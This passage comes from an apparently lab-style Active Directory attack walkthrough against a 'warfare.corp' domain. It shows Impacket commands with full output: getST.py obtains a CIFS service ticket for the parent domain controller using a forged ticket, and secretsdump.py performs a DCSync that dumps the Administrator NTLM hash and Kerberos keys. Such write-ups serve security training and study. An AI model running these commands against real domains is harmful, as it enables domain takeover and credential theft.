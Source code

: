 ```
~$ proxychains /root/.local/bin/getST.py -spn 'CIFS/dc01.warfare.corp' child.warfare.corp/corpmngr -debug -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket
[+] Using Kerberos Cache: corpmngr.ccache
[*] Returning cached credential for KRBTGT/CHILD.WARFARE.CORP@CHILD.WARFARE.CORP
[*] Using TGT from cache
[+] Username retrieved from CCache: corpmngr
[*] Getting ST for user
[+] Trying to connect to KDC at CHILD.WARFARE.CORP:88
[*] Trying to connect to KDC at WARFARE.CORP:88
[*] Saving ticket in corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
```
### 🛡️ Dumping Administrator Credentials

<p class="indent-paragraph">
  With a valid <code>Service Ticket (CIFS)</code> issued for the parent domain controller <code>dc01.warfare.corp</code> using the forged TGT for the user corpmngr, we proceed to extract credentials from the target system. This technique leverages the privileges embedded in the Golden Ticket. First, we export the <code>.ccache</code> file generated by the <code>getST.py</code> script to ensure Impacket tools correctly reference the Kerberos authentication context:
</p>

```
~$ export KRB5CCNAME=corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
```

<p class="indent-paragraph">
  Then, using <code>secretsdump.py</code> with Kerberos authentication flags, we connect to the target domain controller and extract sensitive information, including the <code>NTLM hashes</code> of domain users.
</p>

```
~$ proxychains /root/.local/bin/secretdump.py -k -no-pass dc01.warfare.corp \
    -just-dc-user 'warfare\Administrator' -debug
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket
[+] Using Kerberos Cache: corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
[*] Domain retrieved from CCache: CHILD.WARFARE.CORP
[*] Returning cached credential for CIFS/DC01.WARFARE.CORP@WARFARE.CORP
[*] Using TGS from cache
[*] Calling DRSUAPI method to get NTDS.DIT secrets
[+] Calling DRScrackNames for warfare\Administrator
[+] Calling DRSGetNCChanges for {17446816-c072-445e-ac9b-c0e28630bed6}
[*] Entering NTDSHashes.__decryptHash
[*] Decrypting hash for user: CN=Administrator,CN=Users,DC=warfare,DC=corp
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a2f7b77b62cd97161e18be2ffcdfd60:::
[*] Leaving NTDSHashes.__decryptHash
[*] Entering NTDSHashes.__decryptSupplementalInfo
[*] Leaving NTDSHashes.__decryptSupplementalInfo
[*] Finished processing and printing user's hashes, now printing supplemental information
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:ca1d92ce23064e3c43c08f9a5aff06f8fe002c10ab1031da11152611b2
Administrator:aes128-cts-hmac-sha1-96:33d3f5778fade9945053a05ce2f18445
Administrator:des-cbc-md5:3ba88a586240f423
[*] Cleaning up ...
```
